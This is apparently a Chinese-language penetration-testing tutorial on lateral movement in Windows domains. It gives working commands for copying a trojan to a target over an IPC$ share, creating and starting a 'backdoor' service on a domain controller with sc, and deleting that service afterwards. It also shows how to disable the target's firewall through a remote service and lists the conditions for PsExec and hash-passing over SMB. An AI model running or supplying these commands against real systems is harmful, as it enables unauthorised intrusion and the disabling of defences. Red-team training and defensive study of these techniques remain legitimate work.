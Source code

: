 1.建立IPC连接

2.拷贝木马到目标机器

```
copy shell.exe \\192.168.10.2\C$\windows\temp\
```

3.在目标主机DC上创建一个名称为“backdoor”的服务。命令如下：

```
sc \\[主机名 or IP] create [servicename] binpath= "[path]"   
//创建计划任务启动程序
```
注意这里的格式，“=” 后面是必须空一格的，否则会出现错误。

4.立即启动该服务：

```
sc \\192.168.10.2 start bindshell
```

5.删除刚才创建的服务
```
sc \\192.168.10.2 delete bindshell
```

我们还可以通过设置服务来关闭防火墙：
```
sc \\WIN-ENS2VR5TR3N create unablefirewall binpath= "netsh advfirewall set allprofiles state off"
sc \\WIN-ENS2VR5TR3N start unablefirewall
```



## 通过smb服务横向移动

> 利用条件
>
> 1、445端口开放
>
> 2、知道账号密码明文或hash

利用 SMB 服务可以通过明文或 hash 传递（PTH）来远程执行。

###  明文传递
#### PsExec.exe(微软官方工具)

> 使用条件
>
> 1.对方主机开启了 admin$ 共享，如果关闭了admin$共享，会提示：找不到网络名
>
> 2.对方未开启防火墙
>
> 3.如果是工作组环境，则必须使用administrator用户连接（因为要在目标主机上面创建并启动服务），使用其他账号(包括管理员组中的非administrator用户)登录都会提示访问拒绝访问。
>
> 4.如果是域环境，即可用普通域用户连接也可以用域管理员用户连接。连接普通域主机可以用普通域用户，连接域控只能用域管理员账户。
